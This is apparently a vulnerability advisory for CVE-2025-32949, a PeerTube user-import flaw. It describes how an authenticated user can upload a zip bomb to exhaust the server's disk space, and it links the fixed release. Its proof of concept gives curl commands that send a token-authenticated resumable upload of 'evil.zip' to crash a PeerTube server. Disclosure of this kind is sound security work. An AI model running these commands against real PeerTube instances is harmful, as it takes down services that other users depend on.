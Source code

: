 ```yaml
---
description: CVE-2025-32949 Medium severity. PeerTube User Import Authenticated Resource Exhaustion
title: PeerTube User Import Authenticated Resource Exhaustion
date_published: "2025-04-14"
last_updated: "2025-04-14"
xray_id:
vul_id: CVE-2025-32949
cvss: 6.5
severity: medium
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary
This vulnerability allows any authenticated user to cause the server to consume very large amounts of disk space when extracting a Zip Bomb



## Component

[PeerTube](https://github.com/Chocobozzz/PeerTube)



## Affected versions

(, 7.1.1)



## Description

If user import is enabled (which is the default setting), any registered user can upload an archive for importing. The code uses the yauzl library for reading the archive.
The yauzl library does not contain any mechanism to detect or prevent extraction of a [Zip Bomb](https://en.wikipedia.org/wiki/Zip_bomb). Therefore, when using the User Import functionality with a Zip Bomb, PeerTube will try extracting the archive which will cause a disk space resource exhaustion.

## PoC

This PoC assumes that there is a PeerTube instance on the machine listening on ports 3000 (client) and 9000 (server). Note that running this PoC will cause PeerTube’s server to shut down.



1. First, using a browser, log in to the PeerTube instance with any user’s credentials, and use the inspection screen to copy the authorization token of the user.
1. Create a Zip Bomb named `evil.zip` in the current directory
1. In a terminal, run the following commands (replace “user_token” with the token obtained from step #1):
```
new_location=http:$(curl -s -D - 'http://127.0.0.1:3000/api/v1/users/1/imports/import-resumable' -H 'Authorization: Bearer user_token' -H 'Content-Type: application/json; charset=UTF-8' -H 'X-Upload-Content-Length: 168' -H 'X-Upload-Content-Type: application/x-zip-compressed' --data-raw '{"name":"evil.zip","mimeType":"application/x-zip-compressed","size":168,"lastModified":1743493990068,"filename":"evil.zip"}' | awk '/^location:/{print $2}' | tr -d '\r')
curl -X PUT "$new_location" -H "Content-Type: application/octet-stream" -H "Content-Range: bytes 0-167/168" -H 'Authorization: user_token' --data-binary @evil.zip
```
If everything was done correctly, the PeerTube server will begin extracting the zip file, which will cause disk space resource exhaustion.



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Fix release](https://github.com/Chocobozzz/PeerTube/releases/tag/v7.1.1)
